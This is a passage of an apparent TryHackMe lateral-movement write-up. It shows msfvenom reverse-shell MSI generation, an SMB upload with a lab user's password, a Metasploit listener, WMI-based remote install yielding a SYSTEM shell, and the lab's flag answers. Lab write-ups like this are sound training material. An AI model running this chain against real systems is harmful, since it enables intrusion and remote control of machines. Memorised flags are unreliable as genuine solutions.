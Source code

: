 + After run the service we got the meterpreter session 
```bash 
[*] Started reverse TCP handler on 10.50.49.50:4444 
[*] Sending stage (240 bytes) to 10.200.51.201
[*] Command shell session 1 opened (10.50.49.50:4444 -> 10.200.51.201:52886) at 2024-01-17 12:28:04 +0700

Shell Banner:
Microsoft Windows [Version 10.0.17763.1098]
-----

C:\Windows\system32>whoami
whoami
nt authority\system
c:\Users\t1_leonard.summers\Desktop>Flag.exe
Flag.exe
THM{MOVING_WITH_SERVICES}
```
+ After running the "flag.exe" file on t1_leonard.summers desktop on THMIIS, what is the flag?`THM{MOVING_WITH_SERVICES}`


## Task 4  Moving Laterally Using WMI
+ Creating msi file 
```bash
┌──(kali㉿kali)-[~/TryHackMe]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > dodol.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes

┌──(kali㉿kali)-[~/TryHackMe]
└─$ smbclient -c 'put dodol.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
Password for [ZA\t1_corine.waters]:
do_connect: Connection to thmiis.za.tryhackme.com failed (Error NT_STATUS_UNSUCCESSFUL)

┌──(kali㉿kali)-[~/TryHackMe]
└─$ smbclient -c 'put dodol.msi' -U t1_corine.waters -W ZA '//10.200.51.201/admin$/' Korine.1994
Password for [ZA\t1_corine.waters]:
putting file dodol.msi as \dodol.msi (72.6 kb/s) (average 72.6 kb/s)

┌──(kali㉿kali)-[~/TryHackMe]
└─$ msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/shell_reverse_tcp; set LHOST lateralmovement; set LPORT 4445;exploit"


Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\dodol.msi"; Options = ""; AllUsers = $false}

C:\Users\t1_corine.waters\Desktop>Flag.exe
Flag.exe
THM{MOVING_WITH_WMI_4_FUN}
```
